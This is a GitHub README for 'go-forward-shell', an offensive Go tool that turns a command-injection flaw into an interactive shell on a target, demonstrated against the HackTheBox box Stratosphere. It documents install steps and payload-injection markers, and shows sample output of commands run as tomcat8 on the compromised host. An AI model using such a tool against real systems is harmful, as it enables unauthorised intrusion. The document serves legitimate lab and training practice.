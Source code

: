 # go-forward-shell

This shell was inspired by IppSecs [python forward-shell](https://github.com/IppSec/forward-shell) technique. I just wanted it to be a little more versatile. Also I wanted to pull the custom part away from the source code into separate files.

## Usage

Basically you can just `go run . -h` to see the help page and use the binary.

You could also build and install it after cloning, like:

```bash
go build .
go install .
```

Then you can run `./gofws -h`.

```bash
> ./gofws -h
Usage of ./gofws:
  -interval int
    	Query interval to use, default [1] (default 1)
  -payload string
    	Optional: Surrounding payload, hook with @@cmd@@, default empty
  -proxy string
    	Optional: Proxy to use [http://127.0.0.1:8080], default empty
  -req string
    	Path to request file, hook with @@payload@@, default empty
```

You could also just directly get and install it like:

```bash
go get -u github.com/patrickhener/gofws
go install github.com/patrickhener/gofws@latest
```

## Config

There are two example files, which will work for the box `Stratosphere` of HackTheBox. If you want to understand what the tool does I recommend watching IppSecs video on that topic [IppSec doing Stratosphere](https://www.youtube.com/watch?v=uMwcJQcUnmY).

### payload.txt
The payload file holds the payload which is sent to the server. It has a special marker `@@cmd@@` where the tool will add the payload content.

### request.http
This is a raw request taken from Burp Suite where I insert the payload at the `Content-Type`-Header using the special marker `@@payload@@`. This will be processed by the tool.

## Example output
Again this example output was taken from using the tool against the box `Stratosphere` of HackTheBox.

```bash
> ./gofws -req ./test.http -payload ./payload.txt -proxy http://localhost:8080
[*] Session ID: 45756
[*] Setting up fifo shell on target
[*] Setting up read thread
go-forward-shell$ id
go-forward-shell$ uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

ls -la
go-forward-shell$ total 24
drwxr-xr-x  5 root    root    4096 Aug  2 06:57 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Aug  2 06:57 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

upgrade
tomcat8@stratosphere:~$
exit
Exiting
```

## Special commands
`exit` will gracefully exit the shell and `upgrade` will do the python3 pty trick.